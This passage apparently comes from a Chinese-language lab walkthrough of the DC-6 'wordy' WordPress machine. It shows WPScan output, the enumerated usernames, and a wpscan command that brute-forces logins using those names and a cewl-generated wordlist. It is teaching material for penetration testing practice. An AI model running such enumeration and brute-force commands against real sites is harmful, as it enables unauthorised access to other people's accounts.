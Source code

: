 ```javascript

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Sep 10 01:46:31 2021
[+] Requests Done: 17
[+] Cached Requests: 51
[+] Data Sent: 4.429 KB
[+] Data Received: 23.788 KB
[+] Memory used: 160.844 MB
[+] Elapsed time: 00:00:01

```

查看扫描结果，找到5个用户名：admin、graham、mark、sarah、jens

![9](https://havocykp.github.io/assets/images/img_blog8/9.png)

新建一个 .list文件，将扫描到的5个用户名加入该文件

![10](https://havocykp.github.io/assets/images/img_blog8/10.png)

结合cewl工具生成的字典文件进行爆破

```javascript
┌─[root@pendo]─[/home/pendo]
└──╼ #wpscan --url http://wordy/ -U wordyUsers.list -P wordyPwd.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://wordy/ [192.168.2.203]
[+] Started: Fri Sep 10 01:51:52 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://wordy/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://wordy/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
```